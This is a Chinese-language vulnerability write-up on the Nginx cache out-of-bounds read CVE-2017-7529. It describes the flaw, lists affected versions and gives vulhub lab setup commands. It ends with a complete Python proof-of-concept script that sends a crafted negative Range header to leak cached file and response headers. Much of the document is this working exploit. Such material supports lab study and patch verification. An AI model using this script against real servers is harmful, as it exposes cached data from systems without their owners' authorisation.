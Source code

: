 # Nginx越界读取缓存漏洞 CVE-2017-7529

## 漏洞描述

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 漏洞影响

```
Nginx version 0.5.6 - 1.13.2
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/nginx/CVE-2017-7529
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080 正常即可

![](./images/202206011714686.png)

## 漏洞复现

使用目录下的POC进行验证

```plain
python poc.py http://xxx.xxx.xxx.xxx:8080/
```

![](./images/202206011713645.png)

## 漏洞POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
```